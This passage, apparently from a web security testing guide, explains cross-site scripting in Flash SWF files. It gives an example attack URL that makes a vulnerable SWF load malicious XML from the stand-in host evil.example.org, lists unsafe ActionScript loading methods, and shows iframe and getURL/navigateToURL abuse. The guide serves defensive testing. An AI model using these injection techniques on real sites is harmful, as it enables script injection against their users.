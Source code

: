 ```actionscript
        }
        v5.load(Locale.DEFAULT_LANG + '/player_' +
                            Locale.DEFAULT_LANG + '.xml');
    };
```

The above code could be attacked by requesting:

`http://victim/file.swf?language=http://evil.example.org/malicious.xml?`

### Unsafe Methods

When an entry point is identified, the data it represents could be used by unsafe methods. If the data is not filtered or validated, it could lead to some vulnerabilities.

Unsafe Methods since version r47 are:

- `loadVariables()`
- `loadMovie()`
- `getURL()`
- `loadMovie()`
- `loadMovieNum()`
- `FScrollPane.loadScrollContent()`
- `LoadVars.load`
- `LoadVars.send`
- `XML.load ( 'url' )`
- `LoadVars.load ( 'url' )`
- `Sound.loadSound( 'url' , isStreaming );`
- `NetStream.play( 'url' );`
- `flash.external.ExternalInterface.call(_root.callback)`
- `htmlText`

### Exploitation by Reflected XSS

The swf file should be hosted on the victim's host, and the techniques of reflected XSS must be used. An attacker forces the browser to load a pure swf file directly in the location bar (by redirection or social engineering) or by loading it through an iframe from an evil page:

```html
<iframe src='http://victim/path/to/file.swf'></iframe>
```

In this situation, the browser will self-generate an HTML page as if it were hosted by the victim host.

### GetURL (AS2) / NavigateToURL (AS3)

The GetURL function in ActionScript 2.0 and NavigateToURL in ActionScript 3.0 lets the movie load a URI into the browser's window. If an undefined variable is used as the first argument for getURL:

`getURL(_root.URI,'_targetFrame');`

Or if a FlashVar is used as the parameter that is passed to a navigateToURL function:

```actionscript
var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
navigateToURL(request);
```

